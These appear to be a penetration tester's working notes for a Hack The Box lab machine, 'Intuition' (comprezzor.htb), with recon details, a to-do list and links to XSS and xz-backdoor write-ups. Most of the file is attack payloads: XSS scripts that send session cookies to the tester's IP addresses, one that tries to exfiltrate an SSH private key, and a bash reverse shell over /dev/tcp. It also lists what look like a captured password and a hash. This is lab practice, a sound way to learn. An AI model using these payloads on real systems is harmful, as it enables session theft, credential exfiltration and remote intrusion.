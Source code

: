 # Intuition Notes

## Data

IP: 10.129.21.205 
OS: Ubuntu Jammy
Arch: x64
Hostname:
DNS: comprezzor.htb auth.comprezzor.htb report.comprezzor.htb dashboard.comprezzor.htb
Machine Purpose: Web server
Services: 22,80
Service Languages: nginx: ;
Users: 
- web:
	- admin
	- support
Email and Username Formatting:
Credentials:



#### Mindmap-per Service

- OS detect, run generate noting for `nmap`
- https://launchpad.net/ubuntu/+source/openssh/1:8.9p1-3ubuntu0.7 
- 



```html
<script>fetch("http://10.10.14.39:8445/"+document.cookie)</script>
```

```html
<script>fetch("http://10.10.14.39:8445/"+readFile("/home/adam/.ssh/id_rsa"))</script>
```

#### Todo List

admin cookie on:
auth is just to login
report is to report 
dashboard 
- 

```
echo '/bin/bash -i >& /dev/tcp/10.10.14.39/8443 0>&1' > /tmp/root.sh
```

Lopezz1992%123

0feda17076d793c2ef2870d7427ad4ed
#### Done


- not
	- https://ubuntu.com/security/CVE-2024-3094
	- https://www.rapid7.com/blog/post/2024/04/01/etr-backdoored-xz-utils-cve-2024-3094
	- https://www.akamai.com/blog/security-research/critical-linux-backdoor-xz-utils-discovered-what-to-know
	- https://www.logpoint.com/en/blog/emerging-threats/xz-utils-backdoor/
-
-
https://medium.com/@marduk.i.am/exploiting-cross-site-scripting-to-steal-cookies-3d14c8b42fae
```html
<img src=x onerror="this.src='http://10.10.14.29:8888/'+document.cookie; this.removeAttribute('onerror');">

<script><img src=x onerror="this.src='http://10.10.14.29:8888/'+document.cookie; this.removeAttribute('onerror');"></script>

<!-- https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies -->
<script> fetch('http://10.10.14.29:8888', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>

<script>fetch('http://10.10.14.29');</script>

<script>fetch('http://10.10.14.29')</script>

<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

https://gist.github.com/YasserGersy/a0fee5ce7422a558c84bfd7790d8a082 - javascript mutli lines payload into one line
https://medium.com/@yassergersy/xss-to-session-hijack-6039e11e6a81
